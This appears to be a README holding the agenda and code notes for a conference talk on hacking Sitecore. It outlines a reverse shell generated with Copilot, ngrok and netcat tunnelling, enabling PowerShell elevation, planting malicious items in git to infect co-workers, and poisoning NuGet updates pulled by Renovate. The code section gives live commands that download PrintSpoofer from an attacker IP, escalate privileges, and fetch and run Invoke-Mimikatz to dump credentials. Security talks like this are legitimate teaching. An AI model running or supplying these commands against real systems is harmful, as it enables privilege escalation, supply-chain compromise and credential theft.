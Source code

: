 # code for the sugnl presentation "hacking sitecore"

## agenda

  1. opening
     1. nuget pull request -> who would approve? why (not?)
  2. Reverse shell explanation
     1. what is a reverse shell?
     2. show reverse shell with copilot
        1. show reverse shell creation using copilot and copilot x
        2. show that it works with kali. Show some commands, privileges
  3. EVIL DEV: How to get this to work in Sitecore?
     1. open sitecore, show same magic.
        1. docker: no internal networking, but internet, so use ngrok
        2. show ngrok
        3. ngrok in kali
        4. netcat kali
        5. privilege escalation for powershell disabled -> as an attacker, just enable it ;)
           1. ```services:cm:environment:SITECORE_SPE_ELEVATION:"Allow"``` 
        6. write code
        7. run to test!
           1. two windows side by side
  4. Infect a co-worker
     1. QUESTION - how could we compromise another user? abd how could we compromise a dev/test/acc/prd environment? (use config prd??) - environments which we don't have access to.
        1. discuss with public
     2. non-suspicious DEV: ```**example-1**```
        1. right, let's take a look
        2. pull code, modify IP/ngrok endpoint (or prep another port/ip for this)
        3. MALOCIOUS DEV: push code to git
        4. what does a dev do first thing in the day?
           1. DEV: pull code (branch prepped for sugnl)
           2. up.ps1 - for demo purposes, separate vm without docker           
              1. OR sync code
              2. we do dotnet sitecore ser push
           3. gotcha!
        5. what if: dev takes a look inside sitecore
           1. doesn't see it -> SPE ELEVATION
        6. what if: dev checks the actual yml files?
           1. busted
        7. What can we do to prevent this?
           1. move to dat files
           2. ```**example-2**```
              1. deploy 
                 1. prep once, deploy with config
                 2. show binary data with multiple yaml files
                 3. environment condition?? (only production/test/whatsoever?)
     3. TEST/PRD environment
        1. how could we compromise this one IF the user above checks everything?
        2. ```**example-3**```
           1. nuget approach with update
              1. sitestep to installation.ps1 / init.ps1 ???
                 1. vulnerable as well
        3. create a package wich is ok -> include in platfrom
           1. prepare this demo, have it deployed!
        4. create a package which is not ok
        5. run renovate bot
        6. deploy, gotcha 
     4. pwn the credentials and get na authority\system credentials
     5. 

## items
  
  1. remove all items before demo
  2. open powershell
  3. write powershell
  4. show task scheduler 30 seconds
  5. show that it works
  6. in case of emergency: pull branch and push items ;)


## code

show current user

```batch
whoami
iis apppool
```

```batch
whoami \priv
**SeImpersonatePrivilege**
```

download printspoofer

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://172.26.1.236/
PrintSpoofer64.exe','C:\inetpub\wwwroot\XM1.cm\printspoofer.exe')

(New-Object System.Net.WebClient).DownloadFile('http://172.26.1.236/PrintSpoofer64.exe','C:\inetpub\wwwroot\XP0.sc\printspoofer.exe')
```

show new current user
```powershell
.\printspoofer.exe -i -c "powershell.exe whoami"
```

mimikatz
```powershell
.\printspoofer.exe -i -c "powershell.exe IEX (New-Object System.net.webclient).DownloadString('http://172.26.1.236/im.ps1');Invoke-Mimikatz -DumpCreds"
```